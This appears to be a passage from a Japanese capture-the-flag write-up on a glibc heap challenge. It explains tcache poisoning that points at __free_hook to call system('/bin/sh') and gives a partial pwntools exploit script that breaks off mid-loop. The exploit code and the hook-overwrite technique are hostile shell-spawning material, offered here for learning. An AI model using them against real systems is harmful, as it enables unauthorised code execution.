 ### いつもの

後はtcacheが`A -> B -> __free_hook`となっているので3回addして値を入れて適当にfreeして`system("/bin/sh")`を呼ぶだけである。
配布libc, ldを強引に使っているせいか知らないがシェルは起動しているようで直ぐに落ちてしまったので2.31対応版でやったら普通にシェルが起動した
この辺の環境別に何かをするというのも色々考えないといけない

## Code

(※glibc 2.31用になっています)

```python
from pwn import process, ELF, p64, u64


def select(s, sel, c=b"Input your choice:"):
    s.recvuntil(c)
    s.sendline(str(sel))


def add(s, size, name=b"/bin/sh\x00", phone=b"/bin/sh\x00"):
    select(s, 1)
    s.recvuntil(b"Please input the size of girl's name\n")
    s.sendline(str(size))
    s.recvuntil(b"please inpute her name:\n")
    s.send(name)
    s.recvuntil(b"please input her call:\n")
    s.send(phone)


def show(s, index):
    select(s, 2)
    s.sendline(str(index))
    s.recvuntil(b"name:\n")
    name = s.recvline().rstrip()
    s.recvuntil(b"phone:\n")
    phone = s.recvline().rstrip()
    return name, phone


def delete(s, index):
    select(s, 4)
    s.recvuntil(b"Please input the index:\n")
    s.sendline(str(index))


if __name__ == '__main__':
    """
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    """
    # s = process(["./ld-2.29.so", "./chall_2"], env={"LD_PRELOAD": "./libc.so.6"})
    s = process("./chall_2")
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    free_hook_libc = libc.symbols["__free_hook"]
    malloc_hook_libc = libc.symbols["__malloc_hook"]
    system_libc = libc.symbols["system"]
    # main_arena_libc = 0x7f509f9bac40 - 0x7f509f609000
    # onegadgets = [0xc224f, 0xdf991, 0xdf99d]
    main_arena_libc = 0x1ebbe0 - 0x60

    for _ in range(7):
```